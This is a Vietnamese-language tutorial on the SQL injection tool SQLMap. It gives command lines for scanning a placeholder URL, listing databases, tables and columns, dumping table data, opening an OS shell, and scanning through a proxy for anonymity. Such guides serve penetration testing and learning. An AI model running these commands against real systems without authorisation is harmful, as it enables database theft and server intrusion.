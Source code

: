 # Write-Up Sử Dụng SQLMap

## SQLMap là một công cụ mã nguồn mở rất mạnh mẽ dùng để kiểm tra lỗ hổng SQL Injection và khai thác nó. Dưới đây là hướng dẫn chi tiết về cách sử dụng SQLMap và từng chức năng của nó.

### 1. Cài đặt SQLMap
- SQLMap có thể được cài đặt dễ dàng từ GitHub hoặc thông qua các package manager. Để cài đặt từ GitHub, bạn có thể sử dụng lệnh:

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
```
- Sau khi tải xong, bạn có thể chạy SQLMap bằng cách vào thư mục sqlmap và sử dụng lệnh:

```bash
python sqlmap.py
```

### 2. Các Chức Năng Chính của SQLMap
- Xác định URL và các thông số: Để bắt đầu quét, bạn cần chỉ định URL có thể chứa lỗ hổng SQL Injection. Ví dụ:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1"
```

- Kiểm tra tự động: SQLMap sẽ tự động kiểm tra các lỗ hổng SQL Injection. Nếu có lỗ hổng, bạn có thể thấy thông báo tương ứng. Để tăng cường kiểm tra, có thể thêm tùy chọn --level để chỉ định độ sâu của việc kiểm tra:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --level=5
```

- Khai thác dữ liệu: SQLMap cho phép bạn khai thác dữ liệu từ cơ sở dữ liệu. Bạn có thể sử dụng lệnh sau để liệt kê các cơ sở dữ liệu:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --dbs
```

- Sau khi biết được các cơ sở dữ liệu, bạn có thể chọn một trong số đó để xem các bảng:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D <database_name> --tables
```

- Lấy thông tin bảng và cột: Sau khi có danh sách bảng, bạn có thể lấy thông tin cột trong một bảng cụ thể:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D <database_name> -T <table_name> --columns
```

- Khai thác dữ liệu từ bảng: Để lấy dữ liệu từ một bảng cụ thể, sử dụng lệnh:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D <database_name> -T <table_name> --dump
```

- Kết nối Shell: SQLMap cũng cho phép bạn lấy một shell để tương tác với máy chủ cơ sở dữ liệu:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --os-shell
```

### 3. Một số tùy chọn bổ sung
- Thêm Cookie: Nếu trang web yêu cầu cookie để xác thực, bạn có thể thêm tùy chọn --cookie:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --cookie="sessionid=123456"
```

- Sử dụng Proxy: Để ẩn danh khi quét, bạn có thể sử dụng proxy:

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
```
# Tài nguyên tham khảo
SQLMap Official Documentation
SQL Injection: What You Need to Know
